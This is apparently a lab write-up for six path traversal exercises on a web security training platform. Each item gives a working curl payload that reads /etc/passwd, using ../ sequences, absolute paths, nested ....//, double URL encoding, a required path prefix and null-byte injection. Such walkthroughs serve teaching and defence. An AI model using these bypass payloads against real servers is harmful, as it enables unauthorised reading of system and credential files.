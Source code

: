 1. This lab has a file path traversal vulnerability in the image loading. As such, `/etc/passwd` can be retrieved by running `curl https://ace41fbb1f868312c0be4eb8003a0071.web-security-academy.net/image?filename=../../../../etc/passwd`
2. This lab is the same as above, but blocks `../`. However using absolute file paths work, so the following command works `curl https://aca21f691eaa485cc01a52ae00340075.web-security-academy.net/image?filename=/etc/passwd`
3. This lab has the same vulnerability, but strips out any `../` sequences non-recursively. However, a sequence such as `....//` will result in `../` after the middle `../` is stripped, resulting in a valid payload. The exploit is as follows: `curl https://acdc1fc71fc63e47c0cd4473000a001f.web-security-academy.net/image?filename=....//....//....//etc/passwd`
4. This lab is the same, but blocks any `../`, including when URL encoded. It then URL decodes the resulting string and uses it. That allows for a nested URL encode to bypass the filter, creating the following payload `curl https://ac681f4c1eeab07fc0d0378200ca00c5.web-security-academy.net/image?filename=%252e%252e%252f%252e%252e%252f%252e%252e%252fetc/passwd`. Notably, `%25` is the URL encoding of `%`, so a sequence such as `%252e` will become `%2e` after the first decode, which becomes `.` after the second
5. This lab has the entire path be transmitted within the HTTP request and the server validates that the path starts with `/var/www/images`. However, `../` is not blocked, so directory traversal is still possible with a payload such as `curl https://ac8e1faf1e996ceec0da45dd00970017.web-security-academy.net/image?filename=/var/www/images/../../../etc/passwd`
6. This lab verifies that the requested file ends in a valid image file extension. However, the library used for loading the file uses null byte terminated strings, so the server is vulnerable to null byte injection. As such, the following payload works: `curl https://ac0a1f841e1c20e1c011629f00e50040.web-security-academy.net/image?filename=../../../etc/passwd%00.jpg`
